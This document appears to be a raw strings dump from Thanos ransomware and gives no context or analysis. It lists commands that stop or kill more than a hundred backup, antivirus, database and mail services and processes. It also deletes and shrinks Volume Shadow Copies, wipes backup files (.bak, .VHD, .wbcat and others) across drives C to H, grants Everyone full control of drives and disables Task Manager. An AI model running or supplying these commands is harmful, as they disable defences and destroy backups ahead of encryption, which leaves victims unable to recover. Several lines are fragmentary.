stop BackupExecAgentAccelerator /y
stop BackupExecAgentBrowser /y
stop BackupExecDiveciMediaService /y
stop BackupExecJobEngine /y
stop BackupExecManagementService /y
stop BackupExecRPCService /y
stop AcrSch2Svc /y
stop AcronisAgent /y
stop CASAD2DWebSvc /y
stop CAARCUpdateSvc /y
stop sophos /y
stop “Acronis VSS Provider” /y
stop MsDtsServer /y
stop IISAdmin /y
stop MSExchangeES /y
stop “Sophos Agent” /y
stop EraserSvc11710 /y
stop “Enterprise Client Service” /y
stop “SQL Backups /y
stop MsDtsServer100 /y
stop NetMsmqActivator /y
stop MSExchangeIS /y
stop “Sophos AutoUpdate Service” /y
stop SamSs /y
stop ReportServer /y
stop “SQLsafe Backup Service” /y
stop MsDtsServer110 /y
stop POP3Svc /y
stop MSExchangeMGMT /y
stop “Sophos Clean Service” /y
stop SMTPSvc /y
stop ReportServer$SQL_2008 /y
stop “SQLsafe Filter Service” /y
stop msftesql$PROD /y
stop SstpSvc /y
stop MSExchangeMTA /y
stop “Sophos Device Control Service” /y
stop ReportServer$SYSTEM_BGC /y
stop “Symantec System Recovery” /y
stop MSOLAP$SQL_2008 /y
stop UI0Detect /y
stop MSExchangeSA /y
stop “Sophos File Scanner Service” /y
stop ReportServer$TPS /y
stop “Veeam Backup Catalog Data Service” /y
stop MSOLAP$SYSTEM_BGC /y
stop W3Svc /y
stop MSExchangeSRS /y
stop “Sophos Health Service” /y
stop ReportServer$TPSAMA /y
stop “Zoolz 2 Service” /y
stop MSOLAP$TPS /y
stop “aphidmonitorservice” /y
stop msexchangeadtopology /y
stop “Sophos MCS Agent” /y
stop MSOLAP$TPSAMA /y
stop “intel(r) proset monitoring service” /y
stop msexchangeimap4 /y
stop “Sophos MCS Client” /y
stop ARSM /y
stop MSSQL$BKUPEXEC /y
stop unistoresvc_1af40a /y
stop “Sophos Message Router” /y
stop MSSQL$ECWDB2 /y
stop audioendpointbuilder /y
stop “Sophos Safestore Service” /y
stop MSSQL$PRACTICEMGT /y
stop “Sophos System Protection Service” /y
stop BackupExecDeviceMediaService /y
stop MSSQL$PRACTTICEBGC /y
stop “Sophos Web Control Service” /y
stop MSSQL$PROD /y
stop MSSQL$PROFXENGAGEMENT /y
stop Antivirus /y
stop MSSQL$SBSMONITORING /
stop MSSQL$SBSMONITORING /y
stop AVP /y
stop MSSQL$SHAREPOINT /y
stop DCAgent /y
stop bedbg /y
stop MSSQL$SQL_2008 /y
stop EhttpSrv /y
stop MMS /y
stop MSSQL$SQLEXPRESS /y
stop ekrn /y
stop mozyprobackup /y
stop MSSQL$SYSTEM_BGC /y
stop EPSecurityService /y
stop MSSQL$VEEAMSQL2008R2 /y
stop MSSQL$TPS /y
stop EPUpdateService /y
stop ntrtscan /y
stop MSSQL$TPSAMA /y
stop EsgShKernel /y
stop ESHASRV /y
stop SDRSVC /y
stop MSSQL$VEEAMSQL2012 /y
stop FA_Scheduler /y
stop SQLAgent$VEEAMSQL2008R2 /y
stop MSSQLFDLauncher$PROFXENGAGEMENT /y
stop KAVFS /y
stop SQLWriter /y
stop MSSQLFDLauncher$SBSMONITORING /y
stop KAVFSGT /y
stop VeeamBackupSvc /y
stop MSSQLFDLauncher$SHAREPOINT /y
stop kavfsslp /y
stop VeeamBrokerSvc /y
stop MSSQLFDLauncher$SQL_2008 /y
stop klnagent /y
stop VeeamCatalogSvc /y
stop MSSQLFDLauncher$SYSTEM_BGC /y
stop macmnsvc /y
stop VeeamCloudSvc /y
stop MSSQLFDLauncher$TPS /y
stop masvc /y
stop MSSQLFDLauncher$TPSAMA /y
stop MBAMService /y
stop VeeamDeploySvc /y
stop MSSQLSERVER /y
stop MBEndpointAgent /y
stop VeeamEnterpriseManagerSvc /y
stop MSSQLServerADHelper /y
stop McAfeeEngineService /y
stop VeeamHvIntegrationSvc /y
stop MSSQLServerADHelper100 /y
stop McAfeeFramework /y
stop VeeamMountSvc /y
stop MSSQLServerOLAPService /y
stop McAfeeFrameworkMcAfeeFramework /y
stop MySQL57 /y
stop McShield /y
stop VeeamRESTSvc /y
stop MySQL80 /y
stop McTaskManager /y
stop OracleClientCache80 /y
stop mfefire /y
stop wbengine /y
stop mfemms /y
stop RESvc /y
stop mfevtp /y
stop sms_site_sql_backup /y
stop SQLAgent$BKUPEXEC /y
stop MSSQL$SOPHOS /y
stop SQLAgent$CITRIX_METAFRAME /y
stop sacsvr /y
stop SQLAgent$CXDB /y
stop SAVAdminService /y
stop SQLAgent$ECWDB2 /y
stop SAVService /y
stop SQLAgent$PRACTTICEBGC /y
stop SepMasterService /y
stop SQLAgent$PRACTTICEMGT /y
stop ShMonitor /y
stop SQLAgent$PROD /y
stop Smcinst /y
stop SQLAgent$PROFXENGAGEMENT /y
stop SmcService /y
stop SQLAgent$SBSMONITORING /y
stop SntpService /y
stop SQLAgent$SHAREPOINT /y
stop sophossps /y
stop SQLAgent$SQL_2008 /y
stop SQLAgent$SOPHOS /y
stop SQLAgent$SQLEXPRESS /y
stop svcGenericHost /y
stop SQLAgent$SYSTEM_BGC /y
stop swi_filter /y
stop SQLAgent$TPS /y
stop swi_service /y
stop SQLAgent$TPSAMA /y
stop swi_update /y
stop swi_update_64 /y
stop SQLAgent$VEEAMSQL2012 /y
stop TmCCSF /y
stop SQLBrowser /y
stop tmlisten /y
stop SQLSafeOLRService /y
stop TrueKey /y
stop SQLSERVERAGENT /y
stop TrueKeyScheduler /y
stop SQLTELEMETRY /y
stop TrueKeyServiceHelper /y
stop SQLTELEMETRY$ECWDB2 /y
stop WRSVC /y
stop mssql$vim_sqlexp /y
stop vapiendpoint /y
config Dnscache start= auto
config FDResPub start= auto
config SSDPSRV start= auto
config upnphost start= auto
config SQLTELEMETRY start= disabled
config SQLTELEMETRY$ECWDB2 start= disabled
config SQLWriter start= disabled
config SstpSvc start= disabled
/IM mspub.exe /F
/IM mydesktopqos.exe /F
/IM mydesktopservice.exe /F
/IM mysqld.exe /F
/IM sqbcoreservice.exe /F
/IM firefoxconfig.exe /F
/IM agntsvc.exe /F
/IM thebat.exe /F
/IM steam.exe /F
/IM encsvc.exe /F
/IM excel.exe /F
/IM CNTAoSMgr.exe /F
/IM sqlwriter.exe /F
/IM tbirdconfig.exe /F
/IM dbeng50.exe /F
/IM thebat64.exe /F
/IM ocomm.exe /F
/IM infopath.exe /F
/IM mbamtray.exe /F
/IM zoolz.exe /F
IM thunderbird.exe /F
/IM dbsnmp.exe /F
/IM xfssvccon.exe /F
/IM Ntrtscan.exe /F
/IM isqlplussvc.exe /F
/IM onenote.exe /F
/IM PccNTMon.exe /F
/IM msaccess.exe /F
/IM outlook.exe /F
/IM tmlisten.exe /F
/IM msftesql.exe /F
/IM powerpnt.exe /F
/IM visio.exe /F
/IM winword.exe /F
/IM mysqld-nt.exe /F
/IM wordpad.exe /F
/IM mysqld-opt.exe /F
/IM ocautoupds.exe /F
/IM ocssd.exe /F
/IM oracle.exe /F
/IM sqlagent.exe /F
/IM sqlbrowser.exe /F
/IM sqlservr.exe /F
/IM synctime.exe /F
Delete Shadows /all /quiet
resize shadowstorage /for=c: /on=c: /maxsize=401MB
resize shadowstorage /for=c: /on=c: /maxsize=unbounded
resize shadowstorage /for=d: /on=d: /maxsize=401MB
resize shadowstorage /for=d: /on=d: /maxsize=unbounded
resize shadowstorage /for=e: /on=e: /maxsize=401MB
resize shadowstorage /for=e: /on=e: /maxsize=unbounded
resize shadowstorage /for=f: /on=f: /maxsize=401MB
resize shadowstorage /for=f: /on=f: /maxsize=unbounded
resize shadowstorage /for=g: /on=g: /maxsize=401MB
resize shadowstorage /for=g: /on=g: /maxsize=unbounded
resize shadowstorage /for=h: /on=h: /maxsize=401MB
resize shadowstorage /for=h: /on=h: /maxsize=unbounded
Get-WmiObject Win32_Shadowcopy | ForEach-Object { $_Delete(); }
/s /f /q c:\*.VHD c:\*.bac c:\*.bak c:\*.wbcat c:\*.bkf c:\Backup*.* c:\backup*.* c:\*.set c:\*.win c:\*.dsk
/s /f /q d:\*.VHD d:\*.bac d:\*.bak d:\*.wbcat d:\*.bkf d:\Backup*.* d:\backup*.* d:\*.set d:\*.win d:\*.dsk
/s /f /q e:\*.VHD e:\*.bac e:\*.bak e:\*.wbcat e:\*.bkf e:\Backup*.* e:\backup*.* e:\*.set e:\*.win e:\*.dsk
/s /f /q f:\*.VHD f:\*.bac f:\*.bak f:\*.wbcat f:\*.bkf f:\Backup*.* f:\backup*.* f:\*.set f:\*.win f:\*.dsk
/s /f /q g:\*.VHD g:\*.bac g:\*.bak g:\*.wbcat g:\*.bkf g:\Backup*.* g:\backup*.* g:\*.set g:\*.win g:\*.dsk
/s /f /q h:\*.VHD h:\*.bac h:\*.bak h:\*.wbcat h:\*.bkf h:\Backup*.* h:\backup*.* h:\*.set h:\*.win h:\*.dsk
"C:*" /grant Everyone:F /T /C /Q
"D:*" /grant Everyone:F /T /C /Q
"Z:*" /grant Everyone:F /T /C /Q
Thanos
cacls.exe
 /grant 
:F /T /C /Q
tasklist
/v /fo csv
/f /pid 
Q1|
Software\Microsoft\Windows\CurrentVersion\Policies\System
DisableTaskMgr
```